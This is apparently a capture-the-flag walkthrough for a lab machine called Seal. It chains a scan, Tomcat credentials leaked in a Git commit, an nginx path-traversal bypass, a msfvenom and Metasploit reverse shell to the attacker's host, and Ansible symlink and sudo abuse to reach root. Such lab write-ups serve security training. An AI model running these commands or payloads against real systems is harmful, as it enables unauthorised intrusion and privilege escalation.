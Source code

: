 # Seal machine
## nmap scan
```log
Nmap scan report for 10.129.180.180
Host is up (0.48s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Mon, 12 Jul 2021 13:59:50 GMT
|     Set-Cookie: JSESSIONID=node06kmxbvt64ql61qfcldliv5v722.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Mon, 12 Jul 2021 13:59:50 GMT
|     Set-Cookie: JSESSIONID=node0198yno9a3b5gd1aqh59y5ohkkw0.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 12 Jul 2021 13:59:50 GMT
|     Set-Cookie: JSESSIONID=node0qg96zc5gh3sn3z6gombasswe1.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4: 
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5: 
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: Site doesn't have a title (text/html;charset=utf-8).

```

## seal.htb website
<p align="center">
  <img  src="Pasted image 20210712162952.png">
</p>

### wappalyzer
<p align="center">
  <img  src="Pasted image 20210712163048.png">
</p>
Found nothing to do

I went to check the `8080` http port

<p align="center">
  <img  src="Pasted image 20210712163218.png">
</p>
Gitbucket : looks like a modified version of github
I created an account and logged in.

Found a user named `root` with 2 repos

<p align="center">
  <img  src="Pasted image 20210712163404.png">
</p>

the `seal_market` repo looks like the source code for the **seal.htb** web app

<p align="center">
  <img  src="Pasted image 20210712163537.png">
</p>

I found a `tomcat-user.xml` file in the tomcat folder that kinda has credentials but no passwords 

<p align="center">
  <img  src="Pasted image 20210712163734.png">
</p>

I checked the previous commits and found the password : 

<p align="center">
  <img  src="Pasted image 20210712164003.png">
</p>

```
username : tomcat
password : 42MrHBf*z8{Z%
```

Can't get to `manager/html`, the nginx proxy is misconfigured so I can do a tomcat path traversal :
<p align="center">
  <img  src="Pasted image 20210713092704.png">
</p>

Gives me this :

<p align="center">
  <img  src="Pasted image 20210713092726.png">
</p>

I enter the credentials : 

<p align="center">
  <img  src="Pasted image 20210713092833.png">
</p>

Here we can possibly upload a war reverse shell, let's try it :

<p align="center">
  <img  src="Pasted image 20210713093303.png">
</p>

I used this command to generate the shell :

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[YOUR_IP] LPORT=[YOUR_PORT] -f war > reverse.war
```

I deployed a netcat listener :

<p align="center">
  <img  src="Pasted image 20210713093603.png">
</p>

But everytime I try to upload and deploy the shell it gives me 403 access denied :

<p align="center">
  <img  src="Pasted image 20210713102040.png">
</p>

So I went to use msf :

```bash
msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.129.182.186
msf6 exploit(multi/http/tomcat_mgr_upload) > set rport 443
msf6 exploit(multi/http/tomcat_mgr_upload) > set ssl true
msf6 exploit(multi/http/tomcat_mgr_upload) > set targeturi /images/..;/manager
msf6 exploit(multi/http/tomcat_mgr_upload) > set httppassword 42MrHBf*z8{Z%
msf6 exploit(multi/http/tomcat_mgr_upload) > set httpusername tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set lhost 10.10.14.119
```

And got the shell :

<p align="center">
  <img  src="Pasted image 20210713105507.png">
</p>

I found a YAML file in `/opt/backups/playbook` that probably gets executed as a task :

```yaml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/

```

We can see that it backs-up the `admin/dashboard` folder, and it has the parameter `copy_links` set to `yes`

When I searched about it in the documentation, I found out that it copies the linked folders and files too 

<p align="center">
  <img  src="Pasted image 20210713133119.png">
</p>

So I went and created a link to the `home` folder in the `uploads` folder which was the one accessible to everyone :

```bash
ln -s /home/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/
```

I transferred it to my machine and ssh-ed in using the SSH key in id_rsa and got the user flag : 

<p align="center">
  <img  src="Pasted image 20210713133428.png">
</p>

## Root Flag
Running `sudo -l` :

<p align="center">
  <img  src="Pasted image 20210713144021.png">
</p>

We can run `ansible-playbook` as sudo
So let's write a YAML file to cat the `root.txt` file and execute it as root
```yaml
---
- name: Root flag
  hosts: localhost

  tasks:
  - name: Show the root flag
    command: "cat /root/root.txt"
    register: result
  - debug: var=result

```
The `register` flag stores the output in the `result` variable and `debug` show it in the terminal

```bash
sudo ansible-playbook root_flag.yml
```

We execute the command :

<p align="center">
  <img  src="Pasted image 20210713144957.png">
</p>

We got the root flag !